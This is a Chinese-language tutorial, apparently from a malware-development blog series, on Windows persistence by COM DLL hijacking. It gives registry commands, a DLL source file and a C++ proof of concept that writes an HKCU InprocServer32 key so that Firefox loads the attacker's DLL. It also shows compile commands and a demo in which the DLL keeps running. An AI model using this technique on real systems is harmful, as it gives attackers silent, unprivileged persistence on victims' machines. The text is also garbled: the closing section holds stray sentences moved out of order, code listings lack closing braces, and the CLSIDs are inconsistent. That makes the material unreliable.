\newpage
\subsection{恶意软件开发：持久化（第 3 部分）——COM DLL 劫持（简单的 C++ 示例）}

{width="80%"}

这一节是关于 Windows 恶意软件持久化技术与技巧系列文章的下一部分。

今天我将写关于自我研究另一个持久化技巧的结果：COM 劫持。

### 组件对象模型（COM）

当软件需要加载一个 COM 对象时，它会使用 Windows API `CoCreateInstance` 来构造某个特定类的未初始化对象实例，其中 CLSID 是所需的形参之一（类标识符）。

当程序用特定的 CLSID 值调用 `CoCreateInstance` 时，操作系统会查询注册表以确定哪个二进制文件包含所请求的 COM 代码：

在我的例子中，`firefox.exe` 调用 `CoCreateInstance` 时的 CLSID 是 \{A1DB7B5E-D0EA-4FE0-93C4-314505788272\}。

{width="80%"}

与注册表项关联的文件是 `C:\Windows\System32\TaskFlowDataEngine.dll`：

{width="80%"}

`HKCU\Software\Classes\CLSID\\{A1DB7B5E-D0EA-4FE0-93C4-314505788272\}\InprocServer32`

有多种执行代码的方式，但在各种实例中，COM 已被红队用于持久化、横向移动和防御规避。

InprocServer/InprocServer32

LocalServer/LocalServer32

TreatAs

ProgID

上面列出的子项位于以下注册表配置单元中：

`HKEY_CURRENT_USER\Software\Classes\CLSID`

`HKEY_LOCAL_MACHINE\Software\Classes\CLSID`

在 Process Monitor 中可以设置以下过滤器：

在尝试加载 COM 对象时，`HKEY CURRENT USER`（HKCU）项会被优先检查，从而优先使用用户指定的 COM 对象，而不是系统范围的 COM 对象（更多信息在 `HKEY CLASSES ROOT` 项中）。

{width="80%"}

在我的例子中，`firefox.exe` 进程在下面的图片中表现出这种行为。

该进程试图在 HKCU 注册表项下访问 CLSID A6FF50C0-56C0-71CA-5732-BED303A59628。

由于在 HKCU 注册表项中找不到该 CLSID，Windows 会退回到 HCKR（底层的 HKLM）去查找相同的 CLSID，这在之前的尝试中曾经有效。

```powershell
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
reg query "HKCR\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
```

{width="80%"}

按照上面列出的步骤，我们现在掌握了可用于发动 COM 劫持攻击的关键信息。

### 攻击流程

首先，把本地计算机上指定的子项、条目和值导出到一个文件：

```powershell
reg export \
"HKCR\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}
\InprocServer32" \
C:\...\2022-05-02-malware-pers-3\orig.reg /reg:64 /y
```

{width="80%"}

`HKCU\Software\Classes\CLSID\\{A6FF50C0-56C0-71CA-5732-BED303A59628\}\InprocServer32`

{width="80%"}

如你所见，我们放入了一个将被执行的自定义 DLL。

{width="80%"}

为了简单起见，和往常一样我用了之前文章里的同一个文件。

你可以从源代码编译它（`evil.cpp`）：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

然后，只需运行：

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

把注册表文件保存为 `evil.reg`：

{width="80%"}

然后导入，并再次检查注册表：

```powershell
reg import \
C:\...\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
/s
```

{width="80%"}

完美！

### 演示

然后在我的例子中重启 `firefox.exe`，等待一段时间。

{width="80%"}

{width="80%"}

如果你注意到了，那么 PID 是 9272。

{width="80%"}

但如果你打开 Process Hacker，就会发现它不在那里：

{width="80%"}

Firefox 过了一段时间崩溃了：

之后，「meow-meow」消息框窗口会时不时地弹出来：

{width="80%"}

甚至在关闭 firefox 之后也是如此：

{width="80%"}

这非常完美！ :)

#### 更新：程序员的方式

我还创建了一个 `pers.cpp` 粗糙 PoC 脚本：

```cpp
/*
pers.cpp
windows low level persistence via 
COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\
  {A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = 
  "C:\\Users\\User\\Desktop\\shared\\
  2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry keys
  RegSetValueEx(hkey, NULL, 0, REG_SZ, 
  (unsigned char*)dll, strlen(dll));
  RegCloseKey(hkey);
  } else {
  printf("cannot create subkey for hijacking :(\n");
  return -1;
  }
  return 0;

```

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```powershell
.\pers.exe
```

{width="80%"}

我们可以看到一切都完美工作了 :)

实验完成后进行清理：

```powershell
reg delete \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}" \
/f
```

{width="80%"}

### 结论

在野外，这个技巧常被 APT 28、Turla 等组织以及 Mosquito 后门使用。

COM hijacking MITRE ATT&CK

在 Windows 3.11 中，微软引入了组件对象模型（COM），这是一个面向对象的系统，用于创建可以与其他对象交互的二进制软件组件。

它是一种接口技术，让你可以在不了解它们内部是如何制造的情况下复用组件。

在这篇文章中，我会展示红队如何利用 COM 对象代表受信任进程运行任意代码。

上图中 CLSID 项下的 `InProcServer32` 子项内容展示在下一张图片中：

根据恶意代码的运行方式，COM 劫持过程中会使用各种注册表子项。它们是：

### 如何发现可用于劫持的 COM 项

识别可能用于实施 COM 劫持的 COM 项很简单，只需要使用 Sysinternals 的 Process Monitor 来查找缺少 CLSID 的 COM 服务器。

它也不需要提升的权限（HKCU）。

另外仍然建议加上：Exclude if path starts with HKLM。

这可以用以下命令检查：

下一步是修改这个文件，设置以下注册表项的默认值：

我大约等了 7 分钟：

不过它只发生了一次。

攻击者可以采用一种不算常见但被广泛使用的技术，以确保在执行这些操作后系统中的静默持久化。
